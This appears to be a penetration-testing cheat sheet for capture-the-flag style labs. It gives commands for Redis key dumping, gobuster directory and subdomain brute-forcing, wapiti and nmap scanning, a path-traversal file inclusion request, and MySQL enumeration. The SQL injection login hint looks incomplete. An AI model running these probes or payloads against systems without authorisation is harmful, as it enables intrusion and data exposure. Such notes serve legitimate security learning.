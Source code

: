# 🗄️ Redis

* https://redis.io/docs/manual/cli/

```shell
redis-cli -h <IP_ADDRESS>
> INFO 
> CONFIG GET databases
> INFO keyspace
> SELECT <DB_INDEX>
> KEYS *
> GET flag
```

# 🌐 HTTP

```shell
# File Search
gobuster dir --threads 100 --wordlist /usr/share/wordlists/dirb/common.txt --expanded --url <URL>
gobuster dir --threads 100 --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt --extensions php,htm,html,txt --url <URL>
# Subdomain search
sudo apt install -y seclists
gobuster vhost --threads 100 --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url <URL>

# Login for SQLi: root, administrator, admin
user: <USER>
pass: .

# browser plugin Wappalyzer
# enumerates web server + version + OS + frameworks + JS libraries

wapiti --url <URL>
```

# 🗂️ Local file inclusion vulnerability
```shell
curl -o- <URL>/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

# 🛢️ SQL

* https://www.mysqltutorial.org/mysql-cheat-sheet.aspx

```shell
# add -A (aggressive) to better enumerate SQL service
nmap -Pn -sV -p 3306 -A <IP_ADDRESS>  # better interrogate service

# yay SQL client
mycli -u root -h <IP_ADDRESS>

# MariaDB-specific commands
SHOW databases ;
use <TABLE> ;
SHOW tables ;
SELECT * FROM <TABLE> ;
```
